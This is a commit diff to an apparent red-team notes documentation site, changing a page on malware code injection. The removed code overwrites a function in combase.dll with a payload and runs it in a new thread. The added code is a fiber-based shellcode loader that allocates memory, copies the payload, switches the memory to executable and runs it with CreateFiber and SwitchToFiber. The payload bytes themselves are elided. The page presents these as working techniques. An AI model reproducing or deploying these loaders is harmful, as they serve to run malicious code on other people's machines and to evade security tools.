

Before and after one commit to benjugat/rtnotes, an MkDocs documentation site: the page built from docs/malware/code-injection/fiber-execution.md, in a window 1280 px wide and 1400 px high, scrolled down 1319 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2490 px from its top, so only the background shows below that.

Commit message:
fixing fiber execution

````diff
--- a/docs/malware/code-injection/fiber-execution.md
+++ b/docs/malware/code-injection/fiber-execution.md
@@ -91,25 +91,37 @@ unsigned char payload[] = {...};
 int main(int argc, char ** argv) {
 	int payload_len = sizeof(payload);
 
-    // Load a well known library
-	HMODULE hModule = LoadLibrary("combase.dll");
+    LPVOID mainFiber = ConvertThreadToFiber(NULL);
 
-    // Select a target function to override
-	PVOID pTargetFunc = (PVOID)GetProcAddress(hModule, "CStdStubBuffer_AddRef");
+    if (mainFiber == NULL){
+        printf("[-] ConvertThreadToFiber failed: %lu\n", GetLastError());
+        return 1;
+    }
 
-    // Change the protection to RW
-	DWORD oldProtect;
-	VirtualProtect(pTargetFunc, payload_len, PAGE_READWRITE, &oldProtect);
+    printf("[+] Main fiber -> 0x%p\n", mainFiber);
 
-    // Copy the payload
-	memcpy(pTargetFunc, payload, payload_len);
+    LPVOID pexec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
+    printf("[+] VirtualAlloc RW-> 0x%p\n", pexec);
 
-    // Restore the previous protections
-	VirtualProtect(pTargetFunc, payload_len, oldProtect, &oldProtect);
+    RtlMoveMemory(pexec, payload, payload_len);
+    printf("[+] payload copied to VirtualAlloc -> 0x%p\n", pexec);
 
-    // Execute the function
-	HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pTargetFunc, NULL, 0, NULL);
-	WaitForSingleObject(hThread, INFINITE);
-	CloseHandle(hThread);
+    DWORD oldProtect;
+    VirtualProtect(pexec, payload_len, PAGE_EXECUTE_READ, &oldProtect);
+    printf("[+] VirtualProtect RX-> 0x%p\n", pexec);
+
+    printf("[+] Creating secondary fiber...\n");
+
+    LPVOID newFiber = CreateFiber(0, (LPFIBER_START_ROUTINE)pexec, NULL);
+    if (newFiber == NULL) {
+        printf("[-] CreateFiber failed: %lu\n", GetLastError());
+        return 1;
+    }
+
+    printf("[+] Secondary fiber: %p\n", newFiber);
+    getchar();
+    SwitchToFiber(newFiber);
+    getchar();
+    return 0;
 }
 ```
````
